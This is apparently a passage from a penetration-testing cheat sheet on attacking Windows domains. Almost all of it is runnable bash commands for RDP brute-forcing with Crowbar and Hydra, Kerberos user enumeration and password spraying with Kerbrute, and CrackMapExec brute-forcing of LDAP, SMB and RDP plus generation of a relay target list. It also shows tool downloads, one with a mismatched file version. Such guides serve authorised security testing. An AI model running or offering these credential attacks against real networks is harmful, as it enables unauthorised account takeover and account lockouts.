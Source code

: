 #### RDP - Crowbar - Discovery Mode Domain-Specific RDP Attack against CIDR, scanning first for RDP then trying userlist with password list
```bash
cidr="$cidr"
userlist="users.txt"
wordlist=".\knownpasswords.txt"
./crowbar.py -b rdp -s $cidr -U $userlist -C $wordlist -d
```

### RDP - Hydra - Brute-force
```bash
hydra -t 1 -V -f -l $user -P $wordlist rdp://$IP
hydra -t 1 -V -f -l $user@$fqdn -P $wordlist rdp://$IP
```

## 1b. Coercion and Relays

### Kerbrute - Pre-Auth Enumeration and Spray
```bash
dc="$ip"
domain=$fqdn 
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
chmod +x ./kerbrute_linux_amd64
./kerbrute_linux_amd64 userenum -d $fqdn --dc $dc ./users.txt
#### Spray our Known Good Local Admin password
./kerbrute_linux_amd64 passwordspray -d $fqdn --dc $dc ./users.txt $password
#### Bruting with Pre-Auth  user/pass combolist
cat combos.txt | ./kerbrute_linux_amd64 -d $fqdn bruteforce -
```

### CrackMapExec
```bash
wget https://github.com/Porchetta-Industries/CrackMapExec/releases/download/v5.4.0/cme-ubuntu-latest-3.11.zip
wget https://github.com/Porchetta-Industries/CrackMapExec/releases/download/v5.4.0/cmedb-ubuntu-latest-3.11.zip
unzip cme-ubuntu-latest-3.10.zip
unzip cmedb-ubuntu-latest-3.11.zip  
chmod +x cme
chmod +x cmedb
rm cme-ubuntu-latest-3.11.zip
rm cmedb-ubuntu-latest-3.11.zip  
```

#### Crackmapexec -  Generate Relay List
```bash
crackmapexec smb --gen-relay-list relays.txt $cidr
```

#### Crackmapexec - Brute Force Services LDAP SMB RDP (Warning: can lock stuff out like crazy)
```bash
crackmapexec ldap $cidr -u $user -p $wordlist
crackmapexec smb $cidr -u $user -p $wordlist
crackmapexec rdp $ip -u $user -p $wordlist 
```

